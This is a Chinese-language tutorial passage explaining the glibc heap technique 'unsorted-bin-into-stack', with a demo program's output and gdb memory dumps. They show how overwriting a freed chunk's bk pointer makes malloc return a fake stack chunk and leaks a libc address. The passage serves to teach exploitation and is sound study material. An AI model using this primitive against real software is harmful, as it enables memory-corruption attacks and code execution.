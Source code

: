 ```text
$ gcc -g unsorted_bin_into_stack.c
$ ./a.out
Allocating the victim chunk at 0x17a1010
Freeing the chunk, it will be inserted in the unsorted bin

Create a fake chunk on the stack
fake->size: 0x110
fake->bk: 0x7fffcd906480

Now we overwrite the victim->bk pointer to stack: 0x7fffcd906480

Malloc a chunk which size is 0x110 will return the region of our fake chunk: 0x7fffcd906490
malloc(0x100): 0x7fffcd906490
```

unsorted-bin-into-stack 通过改写 unsorted bin 里 chunk 的 bk 指针到任意地址，从而在栈上 malloc 出 chunk。

首先将一个 chunk 放入 unsorted bin，并且在栈上伪造一个 chunk：

```text
gdb-peda$ x/6gx victim - 2
0x602000:	0x0000000000000000	0x0000000000000091  <-- victim chunk
0x602010:	0x00007ffff7dd1b78	0x00007ffff7dd1b78
0x602020:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/4gx stack_buf
0x7fffffffdbc0:	0x0000000000000000	0x0000000000000110  <-- fake chunk
0x7fffffffdbd0:	0x0000000000000000	0x00007fffffffdbc0
```

然后假设有一个漏洞，可以改写 victim chunk 的 bk 指针，那么将其改为指向 fake chunk：

```text
gdb-peda$ x/6gx victim - 2
0x602000:	0x0000000000000000	0x0000000000000091  <-- victim chunk
0x602010:	0x00007ffff7dd1b78	0x00007fffffffdbc0    <-- bk pointer
0x602020:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/4gx stack_buf
0x7fffffffdbc0:	0x0000000000000000	0x0000000000000110  <-- fake chunk
0x7fffffffdbd0:	0x0000000000000000	0x00007fffffffdbc0
```

那么此时就相当于 fake chunk 已经被链接到 unsorted bin 中。在下一次 malloc 的时候，malloc 会顺着 bk 指针进行遍历，于是就找到了大小正好合适的 fake chunk：

```text
gdb-peda$ x/6gx victim - 2
0x602000:	0x0000000000000000	0x0000000000000091  <-- victim chunk
0x602010:	0x00007ffff7dd1bf8	0x00007ffff7dd1bf8
0x602020:	0x0000000000000000	0x0000000000000000
gdb-peda$ x/4gx fake - 2
0x7fffffffdbc0:	0x0000000000000000	0x0000000000000110  <-- fake chunk
0x7fffffffdbd0:	0x00007ffff7dd1b78	0x00007fffffffdbc0
```

fake chunk 被取出，而 victim chunk 被从 unsorted bin 中取出来放到了 small bin 中。另外值得注意的是 fake chunk 的 fd 指针被修改了，这是 unsorted bin 的地址，通过它可以泄露 libc 地址，这正是下面 unsorted bin attack 会讲到的。
